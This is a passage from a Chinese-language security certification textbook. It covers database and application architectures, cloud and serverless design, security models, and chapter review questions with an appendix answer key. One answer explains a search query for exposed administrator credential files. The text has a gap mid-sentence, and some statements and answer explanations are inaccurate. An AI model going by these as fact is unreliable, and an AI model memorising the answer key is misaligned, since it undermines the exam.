关系数据库使用实体-关系模型。实体是诸如表和表中字段之类的东西。表是数据库的一个组件，定义了一组相关数据。将不同的数据元素视为电子表格中的列。这些列描述表的组件，所有行都是表中的数据实例。使用关系数据库，一个表中的字段可以与另一个表中的字段相关联。你可以在图 14.4 中看到一个简单的示例。这称为实体-关系图，显示数据库中表之间的关系。

### 图 14.4 实体-关系图


这些关系使相关数据在不需要拥有一个包含大量重复数据的单个巨大数据库表的情况下映射在一起。例如，在图 14.4 中，你可以看到有一个定义宠物的表。该表有一个唯一标识符字段、一个名称、一个性别和一个品种。然后你有一个访问表，其中包含访问日期。由于每只宠物都会有多次访问，你需要一种方法将这两行映射在一起。这可以在第三个表中完成。你包括其他两个表中的行的关键标识符。这个表保留来自其他两个数据结构的映射。这个实体-关系图是思考模型的一种方式，其实现是多层架构的数据层。

## 面向服务架构

面向服务架构对应用程序持有不同的看法。它不再从端到端（用户到数据存储）思考应用程序，而是查看使应用程序运行所需的不同功能。这些功能可以实现为微服务。应用程序的架构是不同服务之间的连接，作为实现最终用户或应用程序消费者所需所有功能的方式。这些服务通常被抽象，意味着它们作为黑盒运行。使用服务的程序员可能对它内部的工作原理一无所知。他们所知道的只是如何以有用的方式消费服务。

这意味着通信协议定义良好。它们可能使用诸如远程方法调用（RMI）、远程过程调用（RPC）甚至表述性状态转移（REST）之类的通信协议。这些现有的通信协议意味着程序员不需要创建自己的协议来从一个服务到另一个服务进行通信。服务使用这些库通过使用库与其他服务通信，而不是需要创建完全新的通信方法。

面向服务架构的另一个优势是，一旦你将功能抽象为服务并允许通信发生在调用函数所在进程空间之外，你就可以将该服务放在任何地方。快速网络和快速处理器使得这种进一步抽象成为可能。它还可能限制妥协的影响范围。一旦服务被攻破，攻击者获得的只是访问该内存空间的权限。该内存空间甚至该系统中可能没有任何内容，或者只有短暂数据，甚至不完整，具体取决于服务的实现和应用程序的整体设计。然而，这确实意味着服务通常会向外部暴露，因此攻击者可能会从一个服务和系统探测到另一个。

图 14.5 显示了一个使用面向服务架构的应用程序设计示例。在图表的最顶部是 Web 界面。应用程序不再总是拥有传统界面。使用 Web 界面通常同样容易，而且用户消费 Web 界面通常比需要将本机代码应用程序安装到系统中要容易得多。分隔线下方是一组服务，可以被应用程序的任何组件消费。这些服务可能包括登录服务、用户管理服务、用户配置文件服务、数据建模服务和存储服务。这意味着应用程序真正是模块化的，这长期以来被认为是软件设计的好方法。当它模块化且抽象时，任何部分都可以轻松地移除和替换。

面向服务架构的想法已存在十余年。其受欢迎程度近年来不断提高的原因之一是使用容器。容器是一种将应用程序与其他应用程序和服务隔离的方法。这种隔离通常通过使用命名空间在内核级别完成。命名空间告诉内核任何应用程序所在的内存空间。内核防止任何应用程序访问内存空间或尝试与来自另一个命名空间的应用程序进行进程间通信。


## 图 14.5 面向服务架构


与虚拟机不同，虚拟机是在另一个操作系统之上运行的完整操作系统，而容器使用与主机操作系统相同的内核。这意味着你并未在容器内运行完整的操作系统。容器中仅存在应用程序以及应用程序或服务正常运行所需的任何库依赖项。这使得与容器相关的开销保持较低。容器还将拥有自己的网络接口，因此在其他系统看来，它确实是一个完全独立的设备。容器可以在虚拟机中运行。虽然在另一个虚拟机内运行虚拟机在技术上仍然可行，但中断和内存去虚拟化的多层抽象会带来开销。使用现代计算机时，这可能不易察觉，但它仍然是开销。

容器与微服务或面向服务架构结合使用，将改变应用程序的部署模式。不再需要搭建完全不同的系统（无论是虚拟的还是物理的），你只需为完整应用程序包含的不同服务创建容器即可。

## 云端应用程序

本质上，使用云计算提供商只是外包基础设施的另一种方式。这并不是说云提供商仅提供这些服务。你可以在云提供商处部署传统的多层应用程序，从而将可能因将网络应用程序暴露给外界攻击者而带来的风险转移。这种暴露可能使攻击者能够访问该应用程序，然后横向移动到企业内的其他系统。转向基于云的部署可以帮助缓解这种暴露。

不过，利用基于云的应用模型有更好的方式。首先，微软、亚马逊和谷歌等云提供商允许创建容器来部署应用程序。这意味着你不必担心如何在自己的环境中部署容器。你的云提供商将为你处理所有基础设施和管理工作。虽然容器相对简单，但它们确实需要一些管理。云提供商将为你处理这些管理工作。图 14.6 列出了亚马逊网络服务（AWS）提供的许多服务。其中之一是弹性 Kubernetes 服务（EKS）。Kubernetes 是一种容器。


使用云提供商的一个优势是，在构建应用程序时，你可以利用多种安全服务。这些服务包括日志服务、日志监控服务以及用于创建事件追踪的服务，在应用程序被攻破时非常有用。事件日志和可用的审计踪迹对于调查以确定入侵点和攻击范围至关重要。

此外，像 AWS 这样的提供商将处理所有身份和访问管理工作，使其比没有那么多可用服务的小型组织功能强大得多。除了 AWS 原生提供的（非常丰富）服务之外，许多供应商还将其自身服务作为 AWS 实例提供。这些服务可能包括统一威胁管理设备、防火墙、入侵检测系统以及许多其他类型的安全设备。这些并非硬件设备，而是运行与硬件设备相同软件的虚拟实例。

然而，所有这些仍然集中在更传统的应用程序设计上。云服务还可能为构思应用程序的新方式打开大门。其中一个想法是完全无服务器化。你可能在图 14.6 中注意到一种称为 Lambda 的东西。这是 AWS 提供的一项服务，应用程序开发者可以使用它来创建没有关联服务器或容器的函数。如果将多个无服务器函数连接在一起，就可以创建一个应用程序。如果碰巧某个函数存在漏洞并可能被攻破，后端没有服务器可供利用。图 14.7 展示了一种可能的 AWS 架构，其中可能不包含服务器甚至容器。

## 图 14.7 AWS 无服务器架构


该架构显示用户正在连接到 API 网关。这提供了访问由中间可见的 Lambda 服务提供的函数的方式。在后端，有一个用于应用程序存储的 NoSQL 数据库，包括基于用户的状态信息。当然，这是一种非常简单的设计。设计基于云的架构有更复杂的方式。存储与应用程序关联的数据也有多种方式。这可能包括从应用网络到客户端网络使用虚拟连接进行客户端侧存储。然而，使用云服务提供商进行基于文件的存储或数据库也有多种方式。

## 数据库注意事项

数据库几十年来一直是关系型数据库。用于与关系型数据库交互的语言是 SQL，它在 20 世纪 70 年代开发。你可能会遇到许多常见的 SQL（关系型）数据库。Oracle 长期以来一直是 SQL 数据库领域的大名。它不仅拥有自己的企业级数据库，还在几年前收购了 MySQL，这是一款流行的开源数据库服务器。MariaDB 是在 2010 年从 MySQL 分叉出来的，早于 Oracle 收购。在某些情况下，MariaDB 已在 Linux 发行版中取代了 MySQL。Microsoft 的 SQL Server 也是一种非常常见的数据库服务器，特别是在那些已在 Microsoft 基础设施上大量投资的组织中。

无论你使用哪个 SQL 服务器，它实际上是一个服务器，也就是说，它是一个运行并接受连接的服务。连接可以通过本地网络进行，这意味着有一个监听请求的开放端口。不同的服务器将使用不同的端口号。例如，MySQL 使用 TCP 端口 3306，而 Microsoft 的 SQL Server 使用端口 1433。MySQL 不会使用 UDP 运行，尽管 Microsoft 的 SQL Server 可以配置为为客户端连接使用 UDP。

监听服务在网络中存在问题，因为未授权客户端可能会连接。当连接必须通过网络进行（因为客户端位于独立服务器上）时，强身份验证凭据尤其重要。不过，可以为与服务器位于同一系统上的客户端使用命名管道。这是一种进程间通信方式，其中没有端口监听网络连接。一个进程使用此命名管道连接到另一个进程。

> SQL 注入攻击是通过向 Web 表单中注入 SQL 来实现的，这可能需要一定的混淆。如果攻击者能够直接访问数据库服务器的网络，他们将不需要操纵查询。如果攻击者能够获得经过身份验证的访问权限，他们只需发出查询并获取数据库的内容即可。

虽然关系型数据库服务器几十年来很常见，但其他数据库系统也开始变得更加常见。这些数据库系统之一是 NoSQL。这种类型的数据库通常不使用 SQL 进行编程访问。除此之外，NoSQL 数据库之间存在很大差异。一种 NoSQL 数据库类型是键值型。你可以将其视为字典或关联数组。这两个术语是你可能在像 Python 这样的编程语言中发现的术语。你可能会在 JavaScript 对象表示法（JSON）中看到这种表示形式。这里你可以看到如何使用 JSON 处理一些个人信息，它可用于存储或至少表示一些 NoSQL 数据。

### JSON 中的人员表示

```
"person": {
  "firstname": "Ric",
  "lastname": "Messier",
  "sex": "Male",
  "age": "old",
  "state": "CO"
}
```

使用 JSON，你可以嵌入复杂的数据类型。例如，在最顶层，键是 person，值是一个多键值。这是一个复杂数据类型，其中 person 的值是所提供的完整数据集。你可以拥有多个 person 键，每个键都有不同的关联值。在传统的关系型数据库中，person 下的每个键都将是列。然后你可以拥有多行，其中一行中的每个列都有值。使用键值数据库时，你不一定局限于一次与单个表交互，还可以使用复杂数据类型，而无需执行关系型数据库的复杂 JOIN 查询。

使用 NoSQL 方法思考或表示数据还有其他方式。你可以使用文档存储方法，其中可以存储半结构化数据。例如，数据可以使用 JSON 或可扩展标记语言（XML）来表示。另一种可使用的数据库类型是图数据库，这是一种高度互连的数据存储，其中连接使用图来表示。例如，Facebook 已知使用图数据库。每种数据库类型都将影响数据库本身的使用方式。例如，图数据库搜索速度可能非常快。

以上都未说明如何与它们交互。许多数据库类型都可通过 AWS 和 Azure 等基于云的提供商获得。你可以在图 14.8 中看到 Azure 中可用的部分 NoSQL 数据库提供商列表。许多数据库提供商默认不监听网络。MongoDB 需要配置为监听网络接口，这可能只是本地接口。了解企业或应用程序使用的数据库类型可能不足以获得访问权限。


## 图 14.8 Azure 上的 NoSQL 数据库产品

| 名称 | 供应商 | 状态 |
| :--- | :--- | :--- |
| quasardb testbox | quasardb | 推荐 |
| MongoDB 3.4 on Ubuntu | Jetware | 推荐 |
| Couchbase 企业版（按小时计费） | Couchbase | 推荐 |
| quasardb 节点（包含许可证） | quasardb | 推荐 |
| Azure Cosmos DB | Microsoft | 推荐 |
| Riak 2.0.1 | Basho | 推荐 |
| MongoDB 3.2 on Ubuntu | Jetware | 推荐 |
| Couchbase 企业版 (BYOL) | Couchbase | 推荐 |
| quasardb 节点（社区版和 BYOL） | quasardb | 推荐 |
| Couchbase Server 企业容器 (BYOL) | Couchbase | 推荐 |
| Centos 上的 Apache Solr - 自动更新 + 防病毒 | Cognosys Inc. | 推荐 |
| Centos 7.3 上的加固版 Apache Solr | Cognosys Inc. | 推荐 |
| Crypteron | Crypteron | 推荐 |
| Redis 3.2 带防病毒的安全 Alpine 容器 | Cognosys Inc. | 备份和恢复 |
| Redis 4.0 带防病毒的安全 Ubuntu 容器 | Cognosys Inc. | 推荐 |
| Azure Cosmos DB | Microsoft | 推荐 |
| Redis 4.0 带防病毒的安全 Alpine 容器 | Cognosys Inc. | 备份和恢复 |

并非所有数据库都由像数据库服务器这样的独立软件管理。在某些情况下，数据库功能会嵌入到使用数据的应用程序中。Firefox 网络浏览器也是这种情况。Firefox 使用的所有数据（包括书签和设置）都存储在 SQLite 数据库中。许多其他应用程序（尤其是移动应用程序）也使用 SQLite 数据库。这些数据库以文件形式存储。应用程序使用库函数来管理数据文件中存储的数据。由于它是基于 SQL 的关系数据库，所有程序化访问仍然使用 SQL 查询。要检索数据，程序会生成 SELECT 查询。存储数据将使用 INSERT INTO 查询来处理。

## 安全架构

组织应考虑使用安全架构。此术语可能令人困惑。当有些人听到 *安全架构* 时，他们可能会想到网络设计以及将部署到网络中的所有安全元素。同样，这在网络设计和功能方面既是纵深防御方法的一部分，也用于向公司介绍对手采取的步骤


将花费时间，以便组织能够更好地检测正在发生的事情，并因此识别检测到的事件的严重程度。表示初始侦察的事件会比表示数据外泄（任务完成）的事件要轻得多。

## 图 14.10 攻击生命周期


希望实施安全架构的企业可能会考虑实施控制措施，以应对攻击生命周期的每个阶段。它们既希望防范，也希望检测初始侦察和初始妥协。有些公司可能就此止步，认为自己能够预防或发现一切。由于攻击生命周期中最重要的操作发生在后期，因此能够管理那里发生的任何事情也很重要。

## 摘要

数据分类是一项基本活动。它有助于识别所有数据资源，并确定其敏感性或重要性的优先级。要实施安全模型，需要执行此操作。例如，如果您不知道敏感性或优先级，就无法实施 Biba 模型，因为 Biba 需要知道谁可以向上读取，谁可以向下写入。Biba 安全模型关乎数据完整性。Clark-Wilson 完整性模型也是如此。其他模型（例如 Bell-LaPadula 模型）与完整性相比更关注机密性。完整性确保数据不会被未经授权的用户修改或损坏。机密性确保数据不会被未经授权的人员查看。安全模型对于实施强制访问控制是必要的。

应用程序经过设计。因此，它们通常遵循已知的架构或设计模式。独立的本机应用程序没有外部架构，但可能有内部架构。这意味着，由于它们是独立的，因此不依赖其他系统或服务。不过，常见的应用程序架构是 n 层（或多层）架构。多层架构由表示层、应用层、业务逻辑层和数据访问层组成。有时，根据业务需求，应用层和业务逻辑层会合并为仅处理应用程序逻辑的层。这将是一个三层应用程序。这是 MVC 应用程序设计的一种实现。

Web 应用程序通常会使用多层架构。浏览器是表示层（视图）。可能有一个应用程序服务器，无论其运行的是 Java、.NET、PHP 还是其他语言，都会处理业务和应用程序逻辑（控制器）。最后，很可能有一个数据存储（可能以数据库的形式存在），它是数据访问层（模型）。

现代应用程序仍在使用多层架构，但它们也经常被拆分为函数或服务。当应用程序以这种方式查看或设计时，据说具有面向服务的架构（SOA）。这意味着整个应用程序被拆分为服务，并且这些服务相互交互。它提供了模块化，因此任何服务都可以用另一个具有相同输入/输出规范的服务替换，而无需更改应用程序的其余部分。最近，这种方法已被改编为微服务架构。微服务通过使用 Docker 或 Kubernetes 等容器进一步实现。

有时，这些容器是通过云提供商实现的。

传统应用程序架构也可以使用云提供商实现，最终可能会采用混合方法，即应用程序的一部分在本地部署，而其他部分使用云提供商实现。云提供商也开始让应用程序开发人员接触新的应用程序设计思路。其中包括无服务器函数等。这些函数相互连接以创建整个应用程序，但没有攻击者可以访问的底层服务器。同样，容器的使用有时会导致自动化基础架构，因此容器和虚拟机是按需构建和销毁的。攻击者如果获得了此类环境的访问权限，可能需要不断重新开始，因为他们访问的系统可能会突然消失，包括攻击者放置的任何文件。

通常，应用程序需要存储数据。它可能是临时数据，也可能是持久数据。传统上，应用程序数据存储在使用 SQL 访问的关系数据库中。现代应用程序正在摆脱这种方法，开始使用 NoSQL 数据库，这些数据库可能使用半结构化文档或键值关联数组。

企业总体上需要考虑安全架构。这与应用程序甚至网络设计或架构无关。相反，它是一套指导组织内部安全整体实施的数据和方法。NIST 建议使用识别、保护、检测、响应和恢复五大功能来指导组织——从组织角度进行人员配置，也从评估信息安全和业务潜在风险的角度进行指导。

NIST 并非唯一有安全建议的组织。ISO 27001 是信息安全管理系统的另一套建议。他们建议计划、执行、检查和处置。还有攻击生命周期，它识别对手为获取关键业务系统或数据访问权限所经历的阶段。这些阶段包括初始侦察、初始妥协、建立立足点、提升权限、内部侦察、横向移动、保持持久性和完成任务。

## 复习问题

您可以在附录中找到答案。

- 1. Biba 安全模型与安全三要素的哪个属性相关？
  - A. 机密性
  - B. 完整性
  - C. 可用性
  - D. 以上都是

- 2. n 层应用程序设计中有多少层？
  - A. 两层
  - B. 三层
  - C. 四层
  - D. 取决于应用程序

- 3. JSON 最有可能表示哪种类型的数据库？
  - A. 关系型
  - B. SQL
  - C. 键值型
  - D. 面向文档

- 4. NIST 的网络安全框架规定了多少个功能？
  - A. 无
  - B. 三个
  - C. 五个
  - D. 四个

- 5. ISO 27001 循环有多少个步骤？
  - A. 两个
  - B. 三个
  - C. 四个
  - D. 五个

- 6. 美国政府使用的最高分类级别是什么？
  - A. 绝密
  - B. 机密
  - C. 受限
  - D. 仅限本人

- 7. 微服务是以下哪种架构的特定实现？
  - A. 服务对象架构
  - B. 微通道架构
  - C. 微服务架构
  - D. 面向服务架构

- 8. 如果应用程序仅使用 AWS Lambda 函数，则称为什么？
  - A. 面向服务
  - B. 虚拟化
  - C. 无服务器
  - D. 基础设施即服务

- 9. Clark-Wilson 模型使用什么来引用对象？
  - A. UTI 和 CDI
  - B. CDI 和 CTI
  - C. UDI 和 CDI
  - D. UTI 和 UDI

- 10. 在不完全使用虚拟机监控程序的情况下，您会使用哪种应用程序虚拟化类型？
  - A. 仿真
  - B. AWS
  - C. 半虚拟化
  - D. 容器

- 11. NIST 在其网络安全框架中规定的第一个功能是什么？
  - A. 识别
  - B. 保护
  - C. 风险管理
  - D. 防御

- 12. n 层应用程序设计中常见的中间层是什么？
  - A. Web 服务器
  - B. 数据库服务器
  - C. 逻辑服务器
  - D. 应用程序服务器

- 13. Web 应用程序中可能使用的常见开源关系型数据库服务器是什么？
  - A. MongoDB
  - B. MySQL
  - C. SQL
  - D. Oracle

- 14. 关于 Bell-LaPadula 简单安全属性，以下哪项是正确的？
  - A. 主体不能向上写入对象。
  - B. 主体不能向下写入对象。
  - C. 主体不能向上读取对象。
  - D. 主体不能向下读取对象。

- 15. ISO 27001 循环的阶段是什么？
  - A. 计划、识别、处置、检测
  - B. 计划、检测、处置、执行
  - C. 处置、执行、识别、播放
  - D. 计划、执行、检查、处置


# 附录

## 复习问题答案


### 第 2 章：网络基础

- 1. A. 恒温器是一种没有传统用户界面的嵌入式设备。即使灯泡具有网络功能，也没有用户界面。机顶有线电视盒会有自定义界面而非通用界面。此处唯一具有传统用户界面（屏幕和键盘）的通用计算平台是智能手机，因此它不属于物联网（IoT）。

- 2. D. TCP 使用三次握手，开销较大。HTTP 使用 TCP 并在其上添加更多内容。ICMP 用于控制消息。UDP 开销极小，常用于实时数据传输。

- 3. B. 从上到下，TCP/IP 架构为链路层、网际层、传输层和应用层。B 是唯一反映这一点的答案。

- 4. B. 虽然 Microsoft Azure 和 Google Compute 具有存储功能，但它们不是存储即服务解决方案。下垂叶桌是一种桌子类型。Dropbox 是存储即服务解决方案。此处列出的唯一存储即服务解决方案是 iCloud，即 Apple 的云存储平台。

- 5. B. IP 头部包含地址。UDP 头部使用端口。TCP 头部使用标志，但 UDP 头部不使用。UDP 头部包含源端口和目的端口字段，以及校验和和长度。

- 6. C. 三次握手用于建立连接。第一条消息设置了 SYN 标志并包含序列号。服务器的响应针对客户端发送的 SYN 消息设置了 ACK 标志，并设置了确认号。此外，在同一消息中，服务器发送其自身的 SYN 标志和序列号。客户端随后响应一条 ACK 消息。因此，序列为 SYN、SYN/ACK 和 ACK。

- 7. D. 虽然 ICMP 可用于在网络出错时传递控制消息的一部分，但它不会用于 IoT 设备与服务器之间。SMTP 是一种电子邮件协议，也不会被使用。Telnet 是一种用于获取系统命令行访问权限的明文协议。HTTP 通常用于在控制服务器和 IoT 设备之间传递消息。

- 8. D. 环形网络曾经很常见，但现在少得多。如今，你可能在服务提供商网络中发现环形网络。总线拓扑最适合较小的网络。全网状拓扑不是一种非常常见的拓扑，部分原因是其带来的开销和复杂性。星形-总线混合拓扑会比较常见。企业会使用多个相互通过总线连接的交换机，而所有端点则以星形拓扑连接到交换机。

- 9. B. /23 网络的掩码为 255.255.254.0。/21 将是 255.255.248。/20 将是 255.255.240.0。只有 /22 才会给你 255.255.252.0 的子网掩码。

- 10. C. RFC 1918 地址块为 10.0.0.0/8、172.16.0.0/12 和 192.168.0.0/16。列出的唯一符合其中一个地址块的地址是 172.20.128.240。该地址块为 172.16.0.0–172.31.255.255。

- 11. A. 手册页为命令和程序提供文档。IEEE 是电气和电子工程师协会，它管理一些协议，但本身不是文档。互联网上的标准实际上并不常见，且只有经过很长一段时间后才会出现。查找互联网上协议权威文档的最佳场所是请求意见稿（RFC）文档。

- 12. D. 在网络层，PDU 是分组。网络层是 IP。在数据链路层，PDU 是帧。那里通常使用的协议是以太网。UDP 使用数据报作为 PDU。TCP 使用段作为 PDU。

- 13. B. 源地址用作响应时回送的地址，因此它成为目的地址。不分片位用于告知网络设备不要分片数据包。确认字段是 TCP 头部的一部分，而非 IP 头部。IP 标识字段用于标识同一数据包的分片，因为它们都会具有相同的 IP 标识号。

- 14. C. traceroute 程序使用生存时间（TTL）字段从 1 开始的 UDP 消息。该值会在网络中每经过一个跳点后递增，直到到达目的地。每个设备都会返回一条 ICMP TTL 在传输期间超时消息，以指示 TTL 已过期。该消息的源地址指示网络跳点的地址。在 Windows 系统上，tracert 使用 ICMP 回送请求消息，同样递增生存时间值。正因如此，traceroute 需要 ICMP 才能工作。

- 15. D. VPN 上的系统可能使用 MAC 地址，但也可能使用 IP 地址。隧道也是如此。使用 TCP 时，我们会使用端口进行寻址。在本地网络上，使用 MAC 地址。

### 第 3 章：安全基础

- 1. C. 数据包过滤器根据源地址和目的地址及端口等头部数据来做出阻止/允许决策。有状态防火墙增加了考虑连接状态（新建、相关、已建立）的功能。应用层网关了解应用层协议。统一威胁管理设备在防火墙功能基础上增加了额外功能，包括防病毒。

- 2. D. 机密性是指确保秘密保密。完整性是指确保数据不会因意外或未经授权的实体而被篡改。不可否认性是指如果消息来自某人的身份，该人不能否认消息是由其发出的。可用性是指确保数据在需要时位于所需位置。这也包括服务。

- 3. A. 风险是事件发生概率与损失金额之积。没有可量化的缓解因素，因此可将其纳入风险计算。

- 4. D. 交换机和光缆连接当然可以是网络设计的一部分，但其本身并不增加任何安全功能。你可以在桌面上使用 Linux，但如果没有补丁和漏洞管理策略，Linux 并不比其他操作系统更安全。路由器上的访问控制列表可以增加额外的安全层，尤其是在与防火墙和入侵检测系统等其他元素结合使用时。

- 5. B. 机密性是指保密信息保密，即未经授权的用户无法访问。加密是防止未经授权的用户获取数据的好方法，因为要访问数据，他们需要拥有密钥。看门狗进程用于确保程序保持运行。加密哈希用于验证数据的完整性。Web 服务器用于提供信息。

- 6. C. 防火墙用于阻止流量进入网络，尽管入侵防御系统也会阻止流量。数据包过滤防火墙使用头部信息（如源地址和目的地址及端口）来确定是否允许流量进入网络。Syslog 和 Windows 事件子系统可用于记录系统消息。入侵检测系统可用于对流量生成警报。

- 7. D. 如果用户对文件进行更改并保存，那是有意为之，数据也是用户期望和想要的。如果磁盘驱动器标记了磁盘上的坏块，驱动器不会将任何数据写入这些块，因此不会发生完整性丢失。以明文传输信用卡信息将违反机密性。然而，内存故障可能导致数据完整性丢失，即使在将数据写入驱动器时也是如此。内存中的损坏数据可能会被写入磁盘。此外，内存故障可能导致磁盘驱动程序出现问题，也可能引起数据损坏。

- 8. A. 安全信息事件管理器用于聚合事件数据，例如日志信息。数据聚合后，可以对其进行搜索和关联。尽管称为事件管理器，但它不用于管理安全项目，也不用于升级安全事件。其他工具可用于收集和存储开源情报。

- 9. C. 通常，系统日志存储在生成日志消息的系统上。当然，本地系统可以处理其生成的日志。日志消息在单个消息级别通常不会占用大量空间，因此带宽不是问题。通过网络传输通常不如在本地磁盘内移动数据快。系统日志可用于识别攻击，但日志本身无法防御攻击。然而，如果攻击者确实攻破了系统，攻击者可能会删除本地日志，因为他们可以访问这些日志。

- 10. B. 在 TCP 中，三次握手用于同步序列号并建立连接。尽管序列号是共享的，但它们不会被称为“对齐”，因为这可能暗示每个端都在使用相同的序列号。SYN 消息是三次握手的一部分，但仅靠它不足以建立连接。选项 A，“最终确认消息”是模棱两可的。它可能指对 FIN 消息的确认，即关闭连接。


- 11. A. 标准与实践应源于安全策略，即关于组织内安全角色的高级别指导。安全通常不会提升公司的底线收益。策略并非用于提供具体指导，那是程序的职责。

- 12. C. Parkerian 六元组继承了 CIA 三元组中的机密性、完整性和可用性，并增加了实用性、占有（或控制）以及真实性。

- 13. D. 虽然系统关闭、服务启动和软件包安装可能是会被记录的事件，但它们通常由普通系统日志记录。Windows 与 Linux/Unix 之间的审计功能不同，但两者的审计系统都会在用户登录系统时生成日志。

- 14. B. 尽管入侵防御系统可以生成警报，入侵检测系统也可以。两种系统在必要时也可能记录数据包。虚假消息不太可能导致完成三次握手，而且握手也不应该被完成。然而，入侵防御系统可以阻止或拒绝网络流量，而入侵检测系统不能。

- 15. A. 运行时应用程序自我保护是用于应用程序服务器的插件，用于防止不良消息影响应用程序。Java 小程序是 Java 程序的一种实现。入侵防御系统用于检测和阻止潜在的入侵。然而，Web 应用程序防火墙基于应用层流量做出决策，并允许或阻止该流量。这使其成为应用层网关。

- 16. C. 数据包过滤器将使用第 2/3/4 层头部来做出决策。HTTP 请求消息位于应用层（第 7 层）。以太网类型不被用于数据包过滤器中的决策。SNMP OID 也是一种应用层消息。不过，数据包过滤器可能会使用源端口或目的端口来决定是否允许或阻止数据包。

- 17. C. ElasticStack 是安全信息事件管理器的一种实现。Prewikka 可以与入侵检测系统一起用作仪表板。Snorby 是与 Snort 一起使用的辅助程序。Snort 是一种入侵检测程序。

- 18. D. 缓冲区溢出攻击通过修改堆栈中的返回地址来执行攻击者提供的代码。中间人攻击可用于拦截并可能修改两个系统之间的对话。堆喷射攻击向堆中发送大量数据以覆盖现有内容。水坑攻击不会危及完整性，因为其目的是将恶意软件引入系统。恶意软件最终可能会危及完整性，但水坑攻击本身不会。

- 19. B. 水坑攻击旨在攻击访问网站的系统。网络钓鱼攻击旨在从受害者那里收集信息，可能通过危及受害者的系统。缓冲区溢出攻击试图引入攻击者提供的代码。然而，拒绝服务攻击旨在使服务对用户不可用。

- 20. C. 安装多个防火墙和入侵检测系统并确保策略保持最新，都是纵深防御方法的要素。引入 DevSecOps 文化可能是为了减少漏洞数量并更快地解决它们。因此，它可能被视为广度防御。

### 第 4 章：足迹与侦察

- 1. B. 法国位于欧洲，因此属于 RIPE 管辖范围。ARIN 负责北美。AfriNIC 负责非洲，LACNIC 负责拉丁美洲和加勒比部分地区。

- 2. D. 关键字 site 指示你想要搜索的站点（或域）。你需要提供一个域（将捕获该域中搜索数据库可用的所有 FQDN）或特定主机名。关键字 filetype 指示结果的文件扩展名。此关键字要求提供文件扩展名。Google 或其他搜索引擎中没有可用的 files 或 domain 关键字。

- 3. A. PGP 使用公共服务器和共享验证来存储和验证密钥及密钥所有权。一般来说，密钥由个人拥有。如果有人在 pgp.mit.edu 上搜索，他们很可能是在寻找人，更具体地说是电子邮件地址。

- 4. D. p0f 可以提供某些系统的运行时间。数据包不包含任何时间信息，因此无法收集本地或远程时间。绝对时间将基于特定时区，而时区不会在网络层或数据链路层中传达。

- 5. C. 本地缓存服务器是大多数人用于从其系统执行 DNS 查询以获得更好性能的服务器。递归是从缓存服务器查找 DNS 地址所使用的过程。最终，缓存服务器会向权威服务器请求该信息。

- 6. A. 来自本地缓存服务器的 DNS 请求从缓存开始，然后移动到根服务器，再到后续服务器，始终趋近于最终目标。这种提出问题、获得答案，然后使用新信息再次提问的过程称为递归。串行或组合数学在这种情况下都不成立，而 bistromathics 是 Douglas Adams 为《Life, the Universe and Everything》一书创造的一个研究领域。

- 7. B. 在招聘启事中找到高管人员是不寻常的。可能可以获取网络钓鱼目标，但无法保证，而且通常不会识别出单个个人。招聘启事中不会有任何财务记录可用。不过，公司使用的技术会被识别出来，以确保申请人具备合适的经验。

- 8. D. whois 用于查询域名、IP 地址和其他相关信息。dig 用于向 DNS 服务器发出查询。netstat 用于网络统计。然而，theHarvester 可用于跨多个来源进行搜索，包括 Bing、Google、PGP 服务器和 LinkedIn。

- 9. B. 虽然其他平台可能包含公司详细信息，但只有 LinkedIn 主要用作商业社交网络站点。在那里有个人资料的人会列出职位名称，而职位搜索会指示职位空缺，包括职位名称。

- 10. A. Shodan 是一个你可以用来查找 IoT 设备的网站。查询语言与 Google 使用的类似，只不过它有其他可用于识别网络流量的关键字。这可能包括端口号。p0f 用于被动网络流量分析。你可能会查询 RIR 以获取有关 IP 地址块的信息。Shodan 的域名是 shodan.io，但没有 IO 搜索。

- 11. D. Wappalyzer 是 Chrome 浏览器的扩展程序，可用于识别网站使用的技术。它部分使用 HTTP 头，但不会识别头部信息。它也不用于分析 Web 头，因为 Wappalyzer 的功能不止于此。它可能会查看一些应用程序代码片段以获取使用的框架，但不以传统的应用程序代码分析意义分析应用程序代码。

- 12. C. DNS 查询可用于从主机名识别 IP 地址，反之亦然。你可能会使用暴力技术来识别主机名，尽管使用该方法可能无法获取所有内容。缓存服务器发出递归请求以获取权威响应是常见的。获取区域所有内容的术语称为区域传输。

- 13. B. 当你针对 IP 地址运行 whois 查询时，你将获得该地址所属的块、块的所有者和技术联系人。你还将获得地址信息以及可能的其他信息。你不会获得域与地址块之间的关联。这可能是你可以推断的东西，但结果并不为你提供此信息。

- 14. C. Google 使用关键字 filetype: 来识别应搜索的文件扩展名。Administrator: 不是关键字，这意味着 Administrator:500: 是 Google 将与 txt 文件类型一起使用的搜索词，即文本文件。

- 15. D. 命令 whois 将用于查询 RIR 以获取有关 IP 地址块的信息。它也可用于识别有关域的信息。程序 netstat 用于网络统计。dig 可以使用，但当你提供 @ 参数时，它后面将跟随你想要查询的名称服务器。查找名称服务器记录的正确方法是使用 ns 作为记录类型。当你查找邮件服务器时，会查找 mx 记录类型。

- 16. B. 邮件交换机记录将被识别为 mx 记录。名称服务器记录使用标签 ns 进行识别。虽然企业可能有一个或多个缓存名称服务器，但缓存名称服务器不会被说是属于该域，因为它没有关联的域标识。

- 17. A. Twitter 和 Facebook 是社交网络站点。虽然你可能能够使用用户名找到某人，但可能无法获取关于该用户的详细信息。Intelius 是一个人员搜索站点，你可以在那里获取详细信息，但不能按用户名搜索。PeekYou 是一个允许你按姓名或用户名搜索人员的网站。

- 18. C. LinkedIn 通常用于商业社交网络，但那里不会有太多详细的财务信息。Facebook 是一个社交网络站点，通常被人们用于社交互动。EDGAR 是由 SEC 维护的数据库，包含上市公司的申报信息。MORTIMER 是一个笑话。如果你能认出这个笑话是什么，将获得加分。


- 19. D. 10-Q 是季度报告。11-K 表格与员工股票期权相关。401(k) 是退休账户。SEC 对上市公司要求的 14-A 报告将包括年度股东报告。

- 20. C. 新西兰位于大洋洲，被认为属于环太平洋地区。这意味着它属于亚太网络信息中心 (APNIC) 的管辖范围。AfriNIC 覆盖非洲。RIPE 覆盖欧洲，LACNIC 覆盖拉丁美洲和加勒比海部分地区。

### 第 5 章：扫描网络

- 1. C. TCP 扫描向目标发送消息，期望收到响应。使用 SYN 或全连接扫描时，目标会从开放端口返回 SYN/ACK 消息。如果是关闭端口，目标会返回 RST 消息。

